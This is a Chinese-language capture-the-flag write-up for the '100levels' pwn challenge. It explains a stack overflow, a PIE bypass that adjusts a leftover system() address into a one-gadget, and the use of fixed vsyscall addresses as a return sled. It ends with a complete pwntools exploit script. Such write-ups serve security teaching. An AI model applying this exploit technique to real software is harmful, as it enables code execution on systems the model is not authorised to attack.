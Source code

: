 # 1000levels


# 涉及知识

+ 栈溢出
+ 绕过PIE保护
+ vsyscall的利用

<!--more-->

# 漏洞分析

## 保护机制

![1.png](https://i.loli.net/2020/05/20/kdJRiyZVEYHcxnL.png)

此题难点在于开启了PIE保护，影响程序的加载基址，地址随机化。

## IDA分析

![2.png](https://i.loli.net/2020/05/20/GmfAsrpRWlj8t3a.png)

hint函数中，不管if是否为真，system的地址都被储存在rbp-0x110处，这是非常有用的信息，是解这道题的关键

![1.png](https://i.loli.net/2020/05/20/pYN3VCKX9FHW65b.png)

在go函数中，如果第一次输入值小于等于零，将不会对rbp-0x110处的地址赋值，而如果在运行go函数前，运行了hint函数，rbp-0x110处的值将是system的地址。这是因为hint函数和go函数都是由同一个函数调用，栈信息相同。

![1.png](https://i.loli.net/2020/05/20/Yrys5cdFHG81JRk.png)

第二次输入的值，将会和rbp-0x110处的值相加，利用这一点，我们可以修改system的地址为one gadget的地址。（在这里system无法使用。system需要参数，而PIE保护开启，无法利用ROP）

![1.png](https://i.loli.net/2020/05/20/ZQEAtGHmC6s3Ndy.png)

选用第一个onegadget：0x4526a，第二个输入的值为两个函数偏移量的差值。

![1.png](https://i.loli.net/2020/05/20/DSTshBjC8ZdPf7p.png)

one_gadget的地址必定大于99，所以将进行100次游戏，在这里我们先进行99次游戏，在最后一次利用栈溢出，来执行我们的one gadget。但是这里还有一个问题，onegadget离返回地址处还有0x18个字节，我们需要在这几个位置注入影响较小的命令地址，来滑动到onedget处。PIE开启，函数地址都是随机的，我们就没有办法利用程序中现有的片段。

那应该怎么办？

虽然程序地址是随机的，但是vsyscall的地址是固定的。

vsyscall是一种古老的加快系统调用的机制。现代的Windows/*Unix操作系统都采用了分级保护的方式，内核代码位于R0，用户代码位于R3。许多硬件和内核等的操作都被封装成内核函数，提供一个接口，给用户态调用，这个调用接口就是我们熟知的int 0x80/syscall+调用号。当我们每次调用接口时，为了保障数据的隔离，都会把当前的上下文（寄存器状态）保存好，然后切换到内核态运行内核函数，最后将内核函数的返回结果保存在寄存器和内存中，再恢复上下文，切换到用户态。这一过程是非常消耗性能和时间的，对于一些调用频繁的内核函数，反复折腾，开销就会变成一个累赘。因此系统就把几个常用的无参内核调用从内核中映射到用户空间，这就是syscall。

利用gdb把syscall||dump出来加载到IDA中观察

````
seg000:FFFFFFFFFF600000 ; Segment type: Pure code
seg000:FFFFFFFFFF600000 seg000          segment byte public 'CODE' use64
seg000:FFFFFFFFFF600000                 assume cs:seg000
seg000:FFFFFFFFFF600000                 ;org 0FFFFFFFFFF600000h
seg000:FFFFFFFFFF600000                 assume es:nothing, ss:nothing, ds:nothing, fs:nothing, gs:nothing
seg000:FFFFFFFFFF600000                 mov     rax, 60h
seg000:FFFFFFFFFF600007                 syscall                 ; $!
seg000:FFFFFFFFFF600009                 retn
seg000:FFFFFFFFFF600009 ; ---------------------------------------------------------------------------
seg000:FFFFFFFFFF60000A                 align 400h
seg000:FFFFFFFFFF600400                 mov     rax, 0C9h
seg000:FFFFFFFFFF600407                 syscall                 ; $!
seg000:FFFFFFFFFF600409                 retn
seg000:FFFFFFFFFF600409 ; ---------------------------------------------------------------------------
seg000:FFFFFFFFFF60040A                 align 400h
seg000:FFFFFFFFFF600800                 mov     rax, 135h
seg000:FFFFFFFFFF600807                 syscall                 ; $!
seg000:FFFFFFFFFF600809                 retn
seg000:FFFFFFFFFF600809 ; ---------------------------------------------------------------------------
seg000:FFFFFFFFFF60080A                 align 800h
seg000:FFFFFFFFFF60080A seg000          ends
````

这里还有一点需要注意，我们不能将返回地址设置为0xFFFFFFFFFF600007，而是设置为0xFFFFFFFFFF600000。这是因为syscall会对其进行检测，如果不是函数的开头将会报错。

# EXP

````python
from pwn import*
elf=ELF('./libc.so')
sh=process('./100levels')
#sh=remote('111.198.29.45',58163)
target_off=0x4526a 
system_off=elf.symbols['system'] 


sh.recvuntil('Choice:\n')
sh.sendline('2')
sh.recvuntil('Choice:\n')
sh.sendline('1')
sh.recvuntil('How many levels?\n')
sh.sendline('0')
sh.recvuntil('Any more?\n')
sh.sendline(str(target_off-system_off))	

for i in range(99):
	sh.recvuntil('Question: ')
	parse=sh.recvuntil('=').replace('=','')
	ans=eval(parse)
	sh.sendline(str(ans))



payload='a'*56+p64(0xffffffffff600800)*3
sh.send(payload)

sh.interactive()
````

## 反思

+ 注意sendline发送后，read函数会读入换行符\xa

## 参考

[PIE保护绕过](https://www.anquanke.com/post/id/177520)

[vsyscall](http://blog.eonew.cn/archives/968)
